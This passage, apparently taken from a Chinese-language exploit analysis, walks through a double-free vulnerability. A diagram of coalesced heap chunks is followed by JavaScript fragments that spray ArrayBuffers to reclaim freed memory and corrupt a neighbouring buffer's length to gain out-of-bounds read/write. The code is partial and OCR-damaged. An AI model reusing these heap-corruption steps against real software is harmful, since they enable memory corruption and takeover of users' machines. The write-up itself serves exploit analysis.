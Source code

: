 ```
|    |  Allocated   |    | +------------&gt; |    |  Freed       |    | +------------&gt; |    |  Freed       |    |
|    |              |    |                |    |              |    |                |    |  chunks      |    |
|    +--------------+    |                |    +--------------+    |                |    |  coalesced   |    |
|    +--------------+    |                |    +--------------+    |                |    |              |    |
|    |              |    |                |    |              |    |                |    |              |    |
|    |  Freed       |    |                |    |  Freed       |    |                |    |              |    |
|    |              |    |                |    |              |    |                |    |              |    |
|    +--------------+    |                |    +--------------+    |                |    +--------------+    |
|                        |                |                        |                |                        |
+------------------------+                +------------------------+                +------------------------+
```

在代码中，使用for(var i = 1; i &lt; 0x3000; i = i+2)语句来产生漏洞，其含义是：每进行两次分配，就会触发一次释放。随后，将在分配的一个Slot上触发双重释放。在这时，Windows堆管理器（Windows Heap Manager）会对这些块进行合并，产生一个0x2000大小的空Slot。<br>
现在，攻击者已经创建了这一利用条件，接下来就可以执行下面的JavaScript代码：

```
// reclaims the memory, like your typical use after free
    for(var i = 1;i &lt; 0x40; i++)`{`
        sprayarr2[i] = new ArrayBuffer(0x20000-24);
`}`
```

这段代码会从双重释放的内存空间中回收已经释放的内存。并且，因为Slot较大（由于之前的合并），所以需要分配比原来大一倍的空间。在此之后，攻击者已经回收了释放的内存，他们接下来需要找出sprayarr中的哪个ArrayBuffer的大小增加了一倍。

```
for(var i = 1;i &lt; spraynum; i++)`{`
        if( sprayarr[i].byteLength == 0x20000-24)`{`

            var biga = new DataView(sprayarr[i1]);
            biga.setUint32(0x10000-12,0x66666666);

            // +1 because the next reference as a corrupted length now.
            if(sprayarr[i+1].byteLength == 0x66666666)`{`

                // game over attackers can read/write out of biga
                biga = new DataView(sprayarr[i+1]);

                ...

                mydv = biga;
            `}`
```

